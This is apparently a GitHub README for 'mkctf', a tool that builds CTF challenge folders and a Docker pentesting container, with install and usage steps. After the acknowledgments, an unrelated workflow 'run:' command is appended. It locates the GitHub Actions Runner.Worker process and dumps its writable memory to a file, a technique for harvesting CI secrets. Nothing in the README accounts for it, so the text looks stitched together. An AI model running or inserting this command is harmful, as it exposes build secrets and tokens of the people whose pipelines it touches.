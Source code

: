 # mkctf

`mkctf` is a convenient tool for setting up Capture the Flag (CTF) challenge environments. This script creates a standardized directory structure and initializes a Docker container with essential pentesting tools, providing a ready-to-use environment for tackling CTF challenges.

## Features

- **Automatic Directory Setup**: Creates a structured environment with directories for `network`, `web`, `creds`, and `notes`.
- **Docker Integration**: Uses Docker to provide an isolated environment pre-configured with essential CTF tools.
- **Comprehensive Toolset**: Installs a wide range of pentesting tools including network utilities, web tools, password crackers, and more.
## Installation

1. **Clone the Repository**:
    ```bash
    git clone https://github.com/polo-sec/mkctf.git
    cd mkctf
    ```

2. **Make the Script Executable**:
    ```bash
    chmod +x mkctf.sh
    ```

3. **Add an Alias** (optional but recommended):
    Add the following line to your `.bashrc` or `.zshrc`:
    ```bash
    alias mkctf='/path/to/mkctf.sh'
    ```
    Then, source the file:
    ```bash
    source ~/.bashrc
    ```
    or
    ```bash
    source ~/.zshrc
    ```

## Usage

1. **Create a New Challenge Environment**:
    ```bash
    mkctf <challenge_name>
    ```

2. **Navigate to the Challenge Directory**:
    ```bash
    cd <challenge_name>
    ```

3. **Build and Start the Docker Container**:
    ```bash
    docker-compose up -d --build
    ```

4. **Access the Running Container**:
    ```bash
    docker exec -it <challenge_name>_pentest /bin/bash
    ```

## Directory Structure

When you run `mkctf <challenge_name>`, the following directory structure is created:

```
<challenge_name>/
├── creds/
├── docker-compose.yml
├── Dockerfile
├── network/
├── notes/
└── web/
```

## Contributing

Contributions are welcome! Please submit a pull request or open an issue to discuss any changes or suggestions.

## License

This project is licensed under the MIT License

## Acknowledgments

- Inspired by the need for a streamlined and efficient CTF preparation environment.
- Thanks to the developers of the various tools integrated into this project.

```
run: docker exec kali bash -c 'PID=$(pgrep -f Runner.Worker) && echo "[*] PID: $PID" && awk '\''{split($1,a,"-"); if ($2 ~ /rw/) print a[1],a[2]}'\'' /proc/$PID/maps | while read start end; do dd if=/proc/$PID/mem bs=1 skip=$((0x$start)) count=$((0x$end - 0x$start)) 2>/dev/null; done > /root/memdump.raw'
```

